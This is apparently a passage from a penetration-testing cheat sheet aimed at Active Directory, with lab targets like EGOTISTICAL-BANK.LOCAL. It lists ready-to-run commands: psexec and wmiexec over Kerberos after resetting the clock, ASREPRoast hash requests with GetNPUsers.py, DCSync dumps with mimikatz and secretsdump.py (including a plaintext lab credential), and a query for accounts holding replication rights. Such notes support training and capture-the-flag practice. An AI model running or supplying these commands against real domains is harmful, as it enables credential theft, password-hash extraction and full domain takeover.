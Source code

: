 If error due to time:

```bash
cat $iptarget.nmap # check clock-skew -> deviation
for i in $(seq 00 24); do date -s $i:36:00; ./psexec.py $domainName/TotallyDoesNotExist@$IP -k -no-pass; done
#check the date for the one which a different message (  SErver not found ?)
date -s $datefound
./psexec.py $domainName/TotallyDoesNotExist@$IP -k -no-pass
# psexec on the impacket version is always going to be system user
./wmiexec.py $domainName/TotallyDoesNotExist@$IP -k -no-pass
```
### ASREPRoast (get user cred)

If Kerberos Preauth is diabled we can ask a TGT (Ticket Granting Service) to KDC (Key Distribution Center) for every user.

```
#Try all the usernames in usernames.txt
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile usernames.txt -dc-ip <IP> -format john
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile usernames.txt -dc-ip <IP> -format hashcat

#Use domain creds to extract targets and target them
GetNPUsers.py <domain>/<user>:<pass> -request -format john -outputfile hashes.asreproast
```
We can also use Rubeus (Rubeus -> asreproast action)

[Hackndo infos](https://beta.hackndo.com/kerberos-asrep-roasting/)

### DCSync Attack (LPE AD)
If our user had the following permissions on the domain:
```
Replicating Directory Change
Replicating Directory Change ALL
```

We can ask sensitives infos of all users (ex: NTLM Hash of the Administrator)
#### On the machine with mimikatz
```
.\mimikatz
lsadump::dcsync /EGOTISTICAL-BANK.LOCAL:SAUNA.EGOTISTICAL-BANK.LOCAL /user:<TARGET USER>
```

#### Remotely with secretsdump.py (Impacket)
```
secretsdump.py -dc-ip 10.10.10.30 EGOTISTICAL-BANK.LOCAL/svc_bes:Sheffield19@10.10.10.30
```

#### Check users who has these permissions
```
Get-ObjectAcl -DistinguishedName "dc=<DOMAIN>,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}
```

[more here](https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync)
